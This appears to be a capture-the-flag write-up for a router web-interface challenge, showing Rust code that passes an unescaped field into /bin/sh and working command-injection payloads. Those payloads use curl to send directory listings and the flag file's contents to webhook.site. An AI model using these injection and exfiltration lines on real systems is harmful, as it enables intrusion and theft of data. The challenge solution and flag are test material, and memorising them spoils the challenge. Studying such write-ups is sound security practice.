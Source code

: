 ```yaml
---
created: 2024-06-15T04:41
updated: 2024-08-04T19:46
solves: 63
points: 471
---
```


> We are developing a new router but not sure if the interface has bug or not. Could you have a look?

Simple source digging gives us the username and password.

```
Username: admin
Password: 123456 (md5=e10adc3949ba59abbe56e057f20f883e)
```

```rust
fn save_properties_to_file(){
    unsafe{
        let cmd = format!("echo \"{ESSID}\\n{BAND}\\n{CHANNEL}\\n{WIFI_PASSWORD}\" > /tmp/{ID}.conf");
        Command::new("/bin/sh")
                        .arg("-c")
                        .arg(cmd)
                        .output()
                        .expect("Failed to execute command");
    }
}
```

It is simple formatting. *face palms*

Changing passwords has no verification.

Payload will be `"; CMD; echo "`, probably not the shortest but it will do the trick.

I will also send all results via curl to webhook.site.

```
"; curl -X POST -d "$(ls -la)" https://webhook.site; echo "
```

`ls` didn't find anything, maybe its some flag.txt thing.

```
"; curl -X POST -d "$(find / -type f -name "*flag*")" https://webhook.site; echo "
```

And there it is.

```
/proc/sys/kernel/acpi_video_flags
/proc/sys/net/ipv4/fib_notify_on_flag_change
/proc/sys/net/ipv6/fib_notify_on_flag_change
/proc/kpageflags
/home/user/flag.txt
/usr/lib/x86_64-linux-gnu/perl/5.34.0/bits/waitflags.ph
/usr/lib/x86_64-linux-gnu/perl/5.34.0/bits/ss_flags.ph
/sys/devices/pnp0/00:05/tty/ttyS2/flags
/sys/devices/pnp0/00:03/tty/ttyS0/flags
/sys/devices/pnp0/00:06/tty/ttyS3/flags
/sys/devices/pnp0/00:04/tty/ttyS1/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/virtual/net/eth0/flags
/sys/module/scsi_mod/parameters/default_dev_flags
```

One last step from `/home/user/flag.txt`

```
"; curl -X POST -d "$(cat /home/user/flag.txt)" https://webhook.site; echo "
```

```flag
vsctf{1s_1t_tru3_wh3n_rust_h4s_c0mm4nd_1nj3ct10n!??}
```

